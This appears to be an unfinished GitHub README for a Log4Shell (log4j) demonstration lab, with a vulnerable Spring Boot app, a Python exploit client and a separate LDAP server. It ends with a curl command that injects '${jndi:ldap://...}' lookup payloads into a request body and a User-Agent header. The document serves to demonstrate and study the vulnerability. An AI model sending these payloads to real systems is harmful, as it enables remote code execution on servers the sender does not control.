This repository contains a demo of the log4j vulnerability that got large attention in december 2021.

The demo consists of three differennt parts:<br>
Te first part is a Spring Boot application. This application is based on an older version of Spring Boot and an older version of log4j.<br>
The second part is a simple client written in Python. This client can be used to make REST calls to exploit the vulnerability.
The third part is an LDAP server. It is not included in this repository. Instead you can find it here (include link here to the github)

Building and running the Spring Boot application locally:<br>
Simply run `mvn clean install` and start it then either in IntelliJ or by running `java -jar target/<name>.jar`

Running the application in Docker:<br>
Alternatively, the application can run in a Docker container. Simply run `docker-compose up --build` from the project root.

Running the Python client



ldap notes
openldap
how to install openldap

how to configure openldap

how to start openldap
sudo /usr/libexec/slapd -d3

ldapsearch -H ldap://localhost:389/test -x


curl command
curl -v -X POST http://localhost:8080/post -d '${jndi:ldap://my-domain:389/localhost}' -H 'User-Agent: ${jndi:ldap://localhost:389}'
